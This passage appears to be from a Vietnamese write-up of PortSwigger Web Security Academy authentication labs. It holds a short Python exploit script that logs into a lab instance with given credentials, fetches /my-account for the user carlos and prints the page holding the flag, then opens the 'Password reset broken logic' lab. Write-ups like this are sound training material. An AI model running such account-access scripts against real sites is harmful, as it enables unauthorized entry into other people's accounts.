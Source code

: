 mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a3800da0347917880dd3acf002500ee.web-security-academy.net'

session = requests.Session()
data = {
    'username': 'carlos',
    'password': 'montoya'
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
)

params = {
    'id' : 'carlos',
}

response = session.get(
    url + '/my-account',
    data=data,
    params=params,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)

```

![image](https://hackmd.io/_uploads/H1SjK7RtT.png)

## 3. Lab: Password reset broken logic

link: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic

### Đề bài

![image](https://hackmd.io/_uploads/r1xaYc7CF6.png)
